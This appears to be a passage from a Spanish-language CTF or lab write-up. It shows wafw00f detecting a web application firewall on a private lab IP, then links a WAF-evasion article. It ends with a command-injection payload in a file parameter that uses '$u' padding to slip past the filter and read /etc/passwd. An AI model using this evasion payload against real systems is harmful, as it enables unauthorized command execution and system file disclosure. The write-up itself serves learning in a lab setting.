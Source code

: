 ```
/usr/local/lib/python3.11/dist-packages/requests-2.20.0-py3.11.egg/requests/__init__.py:89: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.2.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

                ______
               /      \                                                                                                                                      
              (  W00f! )                                                                                                                                     
               \  ____/                                                                                                                                      
               ,,    __            404 Hack Not Found                                                                                                        
           |`-.__   / /                      __     __                                                                                                       
           /"  _/  /_/                       \ \   / /                                                                                                       
          *===*    /                          \ \_/ /  405 Not Allowed                                                                                       
         /     )__//                           \   /                                                                                                         
    /|  /     /---`                        403 Forbidden                                                                                                     
    \\/`   \ |                                 / _ \                                                                                                         
    `\    /_\\_              502 Bad Gateway  / / \ \  500 Internal Error                                                                                    
      `_____``-`                             /_/   \_\                                                                                                       
                                                                                                                                                             
                        ~ WAFW00F : v2.2.0 ~                                                                                                                 
        The Web Application Firewall Fingerprinting Toolkit                                                                                                  
                                                                                                                                                             
[*] Checking http://192.168.5.187
[+] Generic Detection results:
[*] The site http://192.168.5.187 seems to be behind a WAF or some sort of security solution
[~] Reason: The response was different when the request wasn't made from a browser.
Normal response code is "200", while the response code to a modified request is "403"
[~] Number of requests: 4
```

Vemos que tiene un `FireWall` protegiendo por detras estas inyecciones de codigos, por lo que haremos lo siguiente...

URL = https://www.secjuice.com/web-application-firewall-waf-evasion/

En ese articulo te viene la clave para `Bypassear` estas cosas...

```
URL = http://<IP>/test.php?file=cat$u%20/etc$u/passwd$u
```
